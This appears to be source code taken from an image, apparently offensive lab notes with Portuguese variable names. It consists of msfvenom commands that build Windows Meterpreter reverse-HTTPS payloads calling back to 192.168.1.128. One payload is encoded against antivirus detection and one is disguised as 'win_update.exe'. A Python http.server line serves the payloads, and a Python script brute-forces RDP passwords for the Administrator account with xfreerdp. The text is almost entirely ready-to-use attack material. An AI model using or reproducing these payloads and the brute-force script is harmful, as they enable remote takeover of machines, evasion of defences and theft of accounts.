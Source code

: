 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

import subprocess

ip_alvo = "SEU_IP_AQUI"
usuario = "Administrator"
wordlist_path = "/caminho/para/wordlist_atibaia.txt"

with open(wordlist_path, "r") as file:
    senhas = file.read().splitlines()

for senha in senhas:
    print(f"Tentando senha: {senha}")
    comando = [
        "xfreerdp",
        f"/u:{usuario}",
        f"/p:{senha}",
        f"/v:{ip_alvo}",
        "/cert:ignore",
        "+auth-only"  # importante: apenas tenta autenticar sem abrir sessão gráfica
    ]

    resultado = subprocess.run(comando, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)

    if "Authentication only, exit status 0" in resultado.stdout:
        print(f"\n✅ Senha encontrada: {senha}")
        break
    else:
        print("Falha.\n")

print("Fim do processo.")

